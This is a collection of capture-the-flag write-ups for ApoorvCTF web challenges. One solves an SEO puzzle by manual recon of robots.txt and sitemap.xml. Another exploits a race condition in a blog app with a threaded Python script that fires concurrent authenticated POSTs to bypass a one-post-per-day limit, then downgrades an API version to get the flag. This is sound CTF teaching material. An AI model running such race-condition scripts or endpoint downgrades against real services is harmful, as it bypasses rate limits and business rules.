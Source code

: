 # Apoorvctf

1. By `HM`
- https://hackmd.io/@hmmm1337/ryLYSEXskx
    - ArchBTW
    - Blend in Disguise

2. By `Bytecodesky`

# SEO CEO - WEB
They're optimizing SEO to show this garbage?!

> Author: proximuz

[Web chall](https://seo-opal.vercel.app)

At first glance we can not do anything on the page, we do not have any functionality or vulnerability.
Automatically you think of doing reconnaissance, but you can't use automated tools, so you have to do a manual reconnaissance.
we start with the most common of all `/robots.txt`.

and we obtain the following

```
blud really thought itd be that easy
apoorvctf{c0me_0n_mAn_it5_t0o_e4sy}

```
we continue scanning the page, and go to `/sitemap.xml`.

```
<url>
<loc>https://www.thiswebsite.com/goofyahhroute</loc>
<lastmod>2025-02-26</lastmod>
<changefreq>never</changefreq>
<priority>0.0</priority>
</url>
```
and within the whole sitemap we found something interesting, apparently an example page that leads to a certain address, but obviously that domain is not valid, so the directory is a signal.

We enter `/goofyahhroute` and we get this
```
ok bro u da seo master gng frfr ngl no cap
but do you really want the "flag"?
come on blud, it's a yes or no question
yeah?
```

then we can deduce that we must pass the parameter **flag** and as value **yes**.
`/goofyahhroute?flag=yes`
and obtain the flag: `apoorvctf{s30_1snT_0pt1onaL}`

2. By `x.two`

# Blog-1 - Web

### Description

In the digital realm, Blog-1 awaited brave developers. The mission? Craft a captivating blog with enchanting posts, lively comments, and secure user authentication. Create a functional and visually stunning masterpiece. Ready for the Blog-1 adventure?


### Solution

We have basic web page where we can register user and login with it. Exploring menu items, we have option of `Daily Rewards`

[Claim](../images/claim.png)


We can see that we have to write 5 blogs to claim the reward (which is probably our flag). But when we try to write 2 blogs, it tells us that we can only write one blog per day. This suggests that there might be a race condition vulnerability, where we can send multiple concurrent requests.

I used this script to write multiple blogs at once:


```python
import requests
import threading
import time
import uuid

SUCCESS_COUNT = 0
SUCCESS_LOCK = threading.Lock()
BARRIER = threading.Barrier(5)  # Strict synchronization for 5 warriors

def domain_expansion(session):
    global SUCCESS_COUNT
    try:
        # Wait for all threads to reach this point
        BARRIER.wait()
        
        url = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"
        headers = {
            "authorization": "Bearer [token]",
            "Content-Type": "application/json",
            "X-Request-ID": str(uuid.uuid4())  # Bypass duplicate request detection
        }
        
        payload = {
            "title": f"Limitless Void {uuid.uuid4().hex[:6]}",  # Unique title each request
            "description": "Cursed Technique: Maximum Output",
            "content": "Domain Expansion: Infinite Void"
        }

        # Surgical strike with precise timing
        response = session.post(
            url,
            headers=headers,
            json=payload,
            timeout=15  # Extended timeout for server processing
        )

        if response.status_code == 201:
            with SUCCESS_LOCK:
                SUCCESS_COUNT += 1
                print(f"Domain expanded! Success #{SUCCESS_COUNT}")
        else:
            print(f"Blocked: {response.status_code} | {response.text}")

    except Exception as e:
        print(f"Curse energy leak: {str(e)}")

if __name__ == "__main__":
    # Create 5 dedicated cursed techniques
    sessions = [requests.Session() for _ in range(5)]
    
    threads = []
    for i in range(5):
        t = threading.Thread(target=domain_expansion, args=(sessions[i],))
        threads.append(t)
        t.start()
        time.sleep(0.001)  # Nanosecond-level stagger
    
    # Wait for all techniques to complete
    for t in threads:
        t.join()
    
    print(f"\nTotal successful domain expansions: {SUCCESS_COUNT}")
    print("If <5, repeat until the barrier breaks!")
```


And we successfully wrote 5 blogs. Visiting `Daily Reward` option sends request to `/api/v2/gift` endpoint which contains this:

[claim2](../images/claim2.png)


This links to a troll youtube video:

https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX


But changing the endpoint back to `/api/v1/gift` gives us our flag:

apoorvctf{s1gm@_s1gm@_b0y}
